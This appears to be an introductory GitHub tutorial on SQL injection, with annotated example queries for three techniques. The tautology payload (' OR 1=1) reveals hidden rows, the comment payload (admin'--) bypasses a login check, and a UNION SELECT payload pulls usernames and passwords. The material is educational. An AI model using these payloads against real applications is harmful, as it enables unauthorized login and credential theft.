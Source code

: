 **What is SQL injection ?** 

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database allows an attacker to view data that they are not normally able to retrieve.

*before start basic knowledge about SQL Query recommended* 

check this [repo](https://github.com/MAAelHamid/Database/blob/main/SQL%20Explained.md#03-sql-physical-design) for SQL basics ...

***Note : the -- (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on) ...*** 

***Many URL decoders treat `+` as a space.***



**SQL injection Targets :**

1. **Retrieving hidden data** *where you can modify an SQL query to return additional results.*

   ```sql
   -- this line of code retrieves all records with name 'ahmed' in department 'hr'
   SELECT * FROM users WHERE name = 'ahmed' AND department = 'hr'
   -- if user input goes to name field with no filter we can abuse this code
   -- if user input like   	' OR 1=1 	   the code be like
   SELECT * FROM users WHERE name = '' OR 1=1
   -- which makes always true condition
   -- this line of code retrieves all records in users table
   ```

   ​	

2. **Subverting application logic** *where you can change a query to interfere with the application's logic.*

   ```sql
   -- this line of code used to login vrefication
   SELECT * FROM users WHERE username = 'admin' AND password = 'p@ssword'
   -- if user input has no filter we can abuse this code
   -- if username like   	admin'-- 	   the code be like
   SELECT * FROM users WHERE username = 'admin'-- AND password = 'bluecheese'
   -- Now u IN ;)
   ```

   

3. **UNION attacks** *where you can retrieve data from different database tables*.

   ```sql
   -- this line of code name and description from products table where category gifts
   SELECT name, description FROM products WHERE category = 'Gifts'
   -- Gifts  is the user input
   -- if there is no input filter we can abuse this using this
   -- 				' UNION SELECT username, password FROM users--
   -- the code be like 
   SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--
   -- this cause the application to return all usernames and passwords along with the names and descriptions of products.
   ```
